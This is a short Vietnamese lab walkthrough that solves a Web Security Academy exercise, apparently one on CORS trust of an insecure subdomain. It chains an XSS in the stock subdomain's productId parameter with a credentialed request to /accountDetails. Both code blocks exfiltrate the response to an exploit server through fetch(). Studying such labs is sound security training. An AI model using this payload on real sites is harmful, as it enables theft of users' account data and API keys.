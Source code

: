   ![image](https://user-images.githubusercontent.com/104350480/225620412-b96efc9a-576c-43d4-9ff2-c0d4132c8ddd.png)

  
  Oke giờ xss được thì tiếp theo ta cần truyền scipt bên trong đoạn gây xss là được, trang web sẽ thực thi lấy origin  là trang web có subdomain và thỏa mãn yêu càu:
  
  Đoạn code vẫn dùng:
  
  ```
  <h1>Hello world</h1>


<script>

    var req = new XMLHttpRequest();
    
    var url='https://0a22007e03ab2b0bc6e85a25005d0020.web-security-academy.net'

    req.open('GET',url+'/accountDetails',true);

    req.withCredentials = true;
    req.onreadystatechange = function() {
      if (req.readyState == XMLHttpRequest.DONE){
            fetch('https://exploit-0a71005b038a2b56c64f594901da006e.exploit-server.net/exploit/log?key=' + req.responseText)
    }
    }

    req.send(null);


</script>
  
  ```
  
  Nhưng ở đây ta cần chuyển hướng trang sang subdomain và thực thi xss với script như bên trên và khai thác như sau:
  
  ```
  
  <h1>Hello world</h1>
<script>
document.location="https://stock.0a22007e03ab2b0bc6e85a25005d0020.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest();var url='https://0a22007e03ab2b0bc6e85a25005d0020.web-security-academy.net'
req.open('GET',url+'/accountDetails',true);
req.withCredentials = true;
req.onreadystatechange = function() {
      if (req.readyState == XMLHttpRequest.DONE){
            fetch('https://exploit-0a71005b038a2b56c64f594901da006e.exploit-server.net/exploit/log?key=' %3b req.responseText)
    }
}
req.send(null);
</script>&storeId=1
</script>
  
  ```
  